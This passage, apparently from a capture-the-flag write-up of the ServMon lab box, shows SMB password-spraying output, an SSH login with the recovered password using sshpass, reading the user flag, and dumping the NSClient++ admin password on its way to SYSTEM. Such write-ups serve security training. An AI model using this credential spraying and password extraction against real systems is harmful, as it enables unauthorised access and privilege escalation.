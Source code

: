     SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [+] SERVMON\nadine:L1k3B1gBut7s@W0rk 



I've got a match, nadine / L1k3B1gBut7s@W0rk.

### SSH

Since SSH is listening on this Windows box, I can use that to get a
shell:



    root@kali# sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184
    Microsoft Windows [Version 10.0.18363.752]          
    (c) 2019 Microsoft Corporation. All rights reserved.
                                                              
    nadine@SERVMON C:\Users\Nadine>



I can also grab `user.txt`:



    nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
    67c99afb************************ 



## Priv: nadine --\> SYSTEM

### Find NSClient++ Password

With a shell, I can get the NSClient++ password. I could do it by
reading the `.ini` file, or just having the helper program tell me:



    nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
    Current password: ew2x6SsGTxjRwXOT


